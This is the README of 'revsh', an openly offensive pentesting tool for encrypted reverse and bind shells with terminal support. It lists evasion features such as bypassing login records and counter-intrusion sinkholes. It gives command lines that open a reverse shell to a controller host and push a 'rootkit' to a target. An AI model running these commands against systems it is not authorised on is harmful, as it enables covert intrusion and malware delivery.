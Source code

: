 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	usage:  revsh [-c [-a] [-s SHELL] [-d KEYS_DIR] [-f RC_FILE]] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]
	
		-c            Run in controller mode.                        (Default is target mode.)
		-a            Enable Anonymous Diffie-Hellman mode.          (Default is "!ADH:DHE-RSA-AES256-SHA".)
		-s SHELL      Invoke SHELL as the remote shell.              (Default is "/bin/bash".)
		-d KEYS_DIR   Reference the keys in an alternate directory.  (Default is "~/.revsh/keys/".)
		-f RC_FILE    Reference an alternate rc file.                (Default is "~/.revsh/rc".)
		-t SEC        Set the connection timeout to SEC seconds.     (Default is "3600".)
		-r SEC1,SEC2  Set the retry time to be SEC1 seconds, or      (Default is "600,1200".)
		              to be random in the range from SEC1 to SEC2.
		-b            Start in bind shell mode.                      (Default is reverse shell mode.)
		-k            Start the bind shell in keep-alive mode.       (Ignored in reverse shell mode.)
		-n            Netcat style data broker. No tty.              (Default is interactive w/remote tty.)
		              Non-interactive. Useful for copying files.
		-v            Verbose output.
		-h            Print this help.
		ADDRESS:PORT  The address and port of the listening socket.  (Default is "127.0.0.1:9999".)
		
		Notes:
		  * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
		  * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	    * Verbose output may mix with data if -v is used together with -n.
		
		Interactive example:
		  local controller host:  revsh -c 192.168.0.42:443
		  remote target host:     revsh 192.168.0.42:443
		
		Non-interactive example:
		  local controller host:  cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
		  remote target host:     revsh 192.168.0.42:443 > ./totally_not_a_rootkit
		

## Example ##

First, setup the local host to be the control host:

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host:

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner.

Local control host:

	empty@monkey:~$ revsh -c

Remote target host:

	target@kitty:~$ ./revsh


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## Roadmap ##

Currently working on:
* Local / Remote static port forwarding support.
* SOCKS 5 proxy dynamic port forwarding support.

Features planned for future releases:
* Curses interface.
* Escape character support. (Similar to SSH's '~' escape character suite.)
* Escape character command line. (Similar to SSH's '~C'.) Commands will include:
    * File upload / download.
    * Proxy creation.
    * Node mapping.
* Rearrange communication into a mesh topology. 

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

